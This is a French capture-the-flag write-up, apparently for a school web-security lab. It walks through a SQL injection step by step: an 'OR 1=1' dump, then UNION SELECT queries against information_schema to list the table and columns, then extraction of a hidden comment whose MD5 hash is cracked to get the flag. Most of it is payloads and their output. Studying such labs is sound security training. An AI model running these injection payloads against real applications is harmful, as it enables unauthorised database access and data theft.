 # SQL Injection Images

- On voit que dans cette entrée il y a une injection SQL
- On commence donc par recuperé toute les données
```
# Injection
1 OR 1=1
# Result
ID: 1 OR 1=1 
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 OR 1=1 
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 OR 1=1 
Title: Google
Url : https://www.google.fr/google.png

ID: 1 OR 1=1 
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 OR 1=1 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 OR 1=1 
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```
- Une entrée s'apelle `Hack Me ?`. On comprend donc qu'il faut y recuperer les autres colonnes
- On recupere le nom de notre Database
```
# Injection
1 UNION SELECT version(),database()
# Result
ID: 1 UNION SELECT version(),database() 
Title: Member_images
Url : 5.5.44-0ubuntu0.12.04.1
```

- On recupere ensuite la table
```
# Injection
1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database()
# Result
ID: 1 UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=database() 
Title: |list_images|
Url : 1
```

- Puis les differentes colonnes
```
# Injection
1 UNION ALL SELECT column_name,table_name from information_schema.columns
# Result
ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : id

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : url

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : title

ID: 1 UNION ALL SELECT column_name,table_name from information_schema.columns 
Title: list_images
Url : comment
```
- Maintentant on peut recuperer les differentes informations
```
# Injection
1 UNION SELECT concat(id,char(58),url,char(58),title,char(58),comment,char(58)),2 FROM list_images
# Result
ID: 1 UNION SELECT concat(id,char(58),url,char(58),title,char(58),comment,char(58)),2 FROM list_images 
Title: 2
Url : 5:borntosec.ddns.net/images.png:Hack me ?:If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46:
```
- On fait se que nous dit le commentaire
```
1928e8083cf461a51303633093573c46 -> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```